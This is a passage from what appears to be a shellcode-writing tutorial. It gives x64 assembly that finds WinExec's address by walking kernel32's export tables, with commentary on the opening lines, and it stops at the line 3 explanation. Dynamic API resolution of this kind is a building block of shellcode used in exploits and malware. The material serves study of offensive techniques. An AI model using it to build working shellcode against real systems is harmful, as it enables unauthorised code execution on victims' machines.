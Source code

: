 

## Find the Base address of the WinExec function

```x64!=
xor rcx, rcx                  ; rcx is cleared
mov rcx, 0x7                  ; Length of WinExec is loaded into rcx
mov rax, 0x00636578456e6957   ; "\00cexEniW" is loaded into rax
push rax                      ; The string name is pushed onto the stack
push rcx                      ; Length is pushed onto the stack
call dynamic_api_resolve      ; dynamic_api_resolve label is called
mov r14, rax                  ; return address of the WinExec is put into r14
jmp next                      ; we jump to the next label

dynamic_api_resolve:
pop rbx                       ; return address is stored in rbx
pop rcx                       ; Length of the api is stored into rcx
xor rax, rax                  ; rax is cleared
mov rdx, rsp                  ; Move the address of name of the api into rdx
push rcx                      ; Length of the api is pushed onto the stack

loop:

mov rcx, [rsp]                ; The counter is being refreshed each time
xor rdi, rdi                  ; clear rdi for getting the name
mov edi, [r11 + rax * 4]      ; RVA of function name symbol  = Address of Name Pointer Table + counter * 4
add rdi, r10                  ; Address of  Function name symbol = RVA of function name symbol + base address 
mov rsi, rdx                  ; moving string to be compared into rsi

repe cmpsb                    ; comparing strings in rdi and rsi
je get_addr                   ; If equal we jump to get the address
inc rax                       ; Else increment counter
jmp loop                      ; jump back into loop


get_addr:
pop rcx                       ; Remove string length from top of stack
mov ax, [r12 + rax * 2]       ; Ordinal number of kernel 32 API (WinExec) = Adress of ordinal table + Counter * 2

mov eax, [r9 + rax * 4]       ; RVA of API = Address of Export Address Table + Ordinal number of WinExec * 4
add rax, r10                  ; Address of the API = RVA of API + base address
push rbx                      ; Pushing the Return Address back onto the stack
ret
```

**Line 1 & 2** - We start off with clearing out `rcx` register and set it to be `0x7` which is `len("WinExec")`

**Line 3** - It's `"WinExec\00"` in little endian moved into `rax`
